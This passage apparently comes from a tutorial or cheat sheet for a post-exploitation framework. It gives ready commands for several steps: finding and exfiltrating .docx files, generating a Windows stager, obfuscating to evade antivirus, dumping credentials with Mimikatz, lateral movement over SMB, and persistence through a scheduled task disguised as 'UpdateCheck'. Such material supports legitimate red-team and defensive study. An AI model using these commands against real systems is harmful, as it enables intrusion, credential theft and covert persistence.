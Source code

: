    - Use a module to search for and exfiltrate files:

```shell
usemodule collection/file_finder
set Agent AGENT_NAME
set Path C:\Users\*
set Pattern *.docx
execute
```

- **`usemodule collection/file_finder`**: Searches for files matching the specified pattern.

## Key Features and Modules

### Multi-Platform Agents
- **Description:** Provides agents for Windows, Linux, and macOS environments, allowing for cross-platform post-exploitation.
- **Usage:**
```shell
usestager windows/launcher_bat
generate
```

### Obfuscation and Evasion
- **Description:** Utilizes script obfuscation and in-memory execution to evade antivirus and endpoint detection.
- **Usage:**
```shell
usemodule obfuscation/Invoke-Obfuscation
execute
```

### Credential Dumping
- **Description:** Offers modules to extract credentials from memory, registry, and file systems, including Mimikatz integration.
- **Usage:**
```shell
usemodule credentials/mimikatz/logonpasswords
execute
```

### Lateral Movement
- **Description:** Includes modules for moving laterally within a network, such as exploiting SMB shares and remote code execution.
- **Usage:**
```shell
usemodule lateral_movement/invoke_smbexec
set Listener my_listener
execute
```

### Persistence Mechanisms
- **Description:** Provides various techniques for maintaining persistence on compromised systems, such as scheduled tasks and registry modifications.
- **Usage:**
```shell
usemodule persistence/schtasks
set Listener my_listener
set TaskName UpdateCheck
set TaskTrigger daily
execute
```
